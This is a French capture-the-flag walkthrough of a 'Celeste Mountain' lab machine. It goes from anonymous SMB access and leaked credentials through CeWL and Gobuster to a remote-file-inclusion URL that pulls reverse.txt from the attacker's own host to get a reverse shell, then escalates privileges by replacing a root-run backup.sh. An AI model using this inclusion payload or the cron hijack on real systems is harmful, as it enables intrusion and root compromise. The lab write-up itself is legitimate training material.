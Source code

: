 # Celeste Mountain CTF Walkthrough

## Sommaire

1. [Accès SMB (Samba)](#1-accès-smb-samba)
2. [Récupération de Credentials](#2-récupération-de-credentials)
3. [Exploration Web & CeWL](#3-exploration-web--cewl)
4. [Gobuster et Page Cachée](#4-gobuster-et-page-cachée)
5. [LFI vers RCE via Paramètre `urlConfig`](#5-lfi-vers-rce-via-paramètre-urlconfig)
6. [Reverse Shell et Escalade de Privilèges](#6-reverse-shell-et-escalade-de-privilèges)

---

## 1. Accès SMB (Samba)

On se connecte anonymement à un partage Samba :

```bash
smbclient //10.10.230.210/anonymous -U guest
```

On explore les fichiers partagés et on tombe sur un list de mot de passe et un user on les tests sur le site `squirrel-mail` et on obtien la combinaison qui fonctionne :

```
badeline:Raptorsensei
```

Dans `squirrel-name` on nous donne un mot de passe.

## 2. Récupération de Credentials

On se conecte sur le Samba en tant que badeline avec le mot de passe obtenue dans `squirrel-mail` et on récupére un fichier nommé `secret plan.txt`:

```
It seems people are trying to hack me down!
Never mind this, they'll never be **cewl** enough to find the hidden directory
Remember to use this page: https://celestegame.fandom.com/wiki/Theo
```

## 3. Exploration Web & CeWL

Le fichier nous oriente vers une page web où l’on doit utiliser **CeWL** pour générer une wordlist personnalisée :

```bash
cewl https://celestegame.fandom.com/wiki/Theo -w wordlist.txt
```

## 4. Gobuster et Page Cachée

Avec cette wordlist, on utilise **Gobuster** pour énumérer les répertoires :

```bash
gobuster dir -u http://10.10.75.174/ -w wordlist.txt
```

On trouve une page cachée : `/theounderstars`.

## 5. LFI vers RCE via Paramètre `urlConfig`

Dans le panneau admin, une page vulnérable permet d’injecter une URL externe :

```
http://10.10.75.174/theounderstars/admin/alerts/alertConfigField.php?urlConfig=http://10.8.92.59:8081/reverse.txt
```

On place un fichier `reverst.txt` contenant du code PHP malicieux sur notre serveur local, ce qui nous donne un **reverse shell**.

## 6. Reverse Shell et Escalade de Privilèges

Une fois dans le shell, on se connecte à nouveau en tant que `badeline` avec :

```bash
su badeline
# Password: Raptorsensei
```
🎉 **1er Flag obtenu**


On remarque qu’on peut renommer un dossier système et créer un dossier du même nom contenant un fichier `backup.sh`.

On place un script comme ceci :

```bash
#!/bin/bash
cat /root/root.txt > /tmp/root.txt
```

On attend ou déclenche l’exécution automatique de `backup.sh`.

Résultat : le flag root est copié dans un fichier lisible ! 🎉

🎉 **2ème Flag obtenu**
---
